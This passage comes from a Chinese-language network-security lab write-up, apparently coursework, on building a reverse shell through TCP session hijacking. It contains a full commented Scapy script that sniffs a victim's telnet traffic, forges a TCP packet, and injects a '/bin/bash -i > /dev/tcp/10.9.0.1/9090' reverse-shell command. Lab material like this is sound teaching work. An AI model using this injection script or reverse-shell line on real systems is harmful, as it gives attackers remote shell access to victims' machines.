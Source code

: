 可以看到 $victim$ 已被侵入。

---

## Task 4: Creating Reverse Shell using TCP Session Hijacking

当攻击者能够使用 TCP 会话劫持将命令注入受害者的计算机时，他们对在受害者计算机上运行一个简单的命令不感兴趣；

他们对运行许多命令感兴趣。显然，通过 TCP 会话劫持来运行这些命令是不方便的。

攻击者想要达到的目的就是利用这次攻击设置一个后门，然后利用这个后门方便地进行进一步的破坏。

设置后门的典型方法是从受害计算机运行反向 shell，以便攻击者可以通过 shell 访问受害计算机。

反向 shell 是在远程计算机上运行的 shell 进程，连接回攻击者的计算机。

编写 `reverseshell.py`：

```python
#!/usr/bin/env python3

from scapy.all import *

def spoof_pkt(pkt):

    ip = IP(src=pkt[IP].dst, dst=pkt[IP].src)
    # 创建IP层对象，交换源地址和目的地址：
    # - 源地址（src）设为捕获到的数据包的目的地址
    # - 目的地址（dst）设为捕获到的数据包的源地址

    tcp = TCP(sport=pkt[TCP].dport, dport=23, flags="A", seq=pkt[TCP].ack, ack=pkt[TCP].seq+1)
    # 创建TCP层对象：
    # - 源端口（sport）设为捕获到的数据包的目的端口
    # - 目的端口（dport）设为23（通常为Telnet端口）
    # - 标志位（flags）设为 "A"，表示TCP ACK（确认）包
    # - 序列号（seq）设为捕获包的确认号（ack），
    # - 确认号（ack）设为捕获包的序列号加1

    data = "/bin/bash -i > /dev/tcp/10.9.0.1/9090 0<&1 2>&1\n\0"
    # 定义数据部分，包含一个反向Shell命令，该命令试图通过网络连接远程主机
    # - 命令启动一个bash Shell，并将其输入和输出重定向到远程主机的指定IP（10.9.0.1）和端口（9090）

    pkt = ip/tcp/data
    # 将IP层、TCP层和数据部分组合成一个完整的数据包

    send(pkt, verbose=0)
    # 发送伪造的TCP ACK包，设置verbose=0以避免输出发送日志

f = f'tcp and src host 10.9.0.5'
# 定义过滤条件，仅捕获源IP地址为10.9.0.5的TCP数据包

pkt = sniff(iface='br-832b8642e575', filter=f, prn=spoof_pkt)
# 捕获网络数据包：
# - 捕获到符合条件的数据包后，调用函数 spoof_pkt 对该包进行处理

```
